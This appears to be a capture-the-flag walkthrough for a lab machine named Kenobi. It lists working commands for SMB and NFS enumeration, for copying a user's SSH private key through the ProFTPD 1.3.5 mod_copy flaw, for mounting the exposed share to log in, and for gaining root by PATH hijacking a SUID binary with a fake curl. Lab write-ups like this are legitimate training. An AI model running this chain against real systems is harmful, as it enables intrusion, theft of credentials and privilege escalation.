 # Kenobi
## Samba 
Implements SMB for Linux

```bash
nmap -p 445 --script=smb-enum-users.nse,smb-enum-shares.nse $IP
```

grab log.txt
```bash
smbget -R smb://<ip>/anonymous
```

A user `kenobi` has generated a key pair and started a ProFTP server.

## RPCBind
Network file system on port 111 exposing /var

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
```

## ProFTPD
1.3.5 is vulnerable to mod_copy

```bash
 $ searchsploit proftpd | grep 1.3.5          
```
> ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)               | linux/remote/37262.rb

> ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                     | linux/remote/36803.py

> ProFTPd 1.3.5 - File Copy                                               | linux/remote/36742.txt

CPFR/CPTO kenobi id_rsa to /var/tmp
```bash
nc $IP 21
CPFR /home/kenobi/.ssh/id_rsa
CPTO /var/tmp/id_rsa
```

## Network Share
```bash
sudo mount $IP:/var /mnt/kenobinfs
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@$IP
```

## Escalate
Search for SUID binaries
```bash
find / -perm -u=s -type f 2>/dev/null
```

Run strings on suspicious binary.

```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```